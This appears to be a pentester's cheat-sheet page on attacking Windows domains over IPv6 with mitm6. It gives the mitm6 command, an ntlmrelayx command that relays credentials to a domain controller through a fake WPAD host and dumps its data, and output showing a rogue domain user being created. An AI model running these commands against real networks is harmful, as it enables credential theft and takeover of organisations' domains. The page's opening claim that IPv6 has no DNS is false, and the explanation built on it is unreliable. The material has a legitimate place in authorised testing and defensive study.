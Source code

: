 #  IPv6 Attacks

There's no dns for IPv6 (only for IPv4) so we can spoof it with mitm6

## Mitm6

- Fetch it [here](https://github.com/dirkjanm/mitm6)
- mitm6 command
```mitm6 -d domain-name.local```
- ntlmrelay
```ntlmrelayx.py -6 -t ldaps://DOMAIN-CONTROLLER-IP -wh fakewpad.domain.local -l lootme```
- Once the attack is successful we get a folder lootme with plenty of info from the DC
- If during the attack and admin logs in win 10 machine, mitm6 will create a new user for us:
```[*] Adding new user with username: YrAjkDnwzM and password: SHq]d(88dr%5+3R result: OK```

### Mitm6 - Resources

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/" %} Mitm6 {% endembed %}
{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" %} Combining NTLM Relaying and Kerberos delegation {% endembed %}
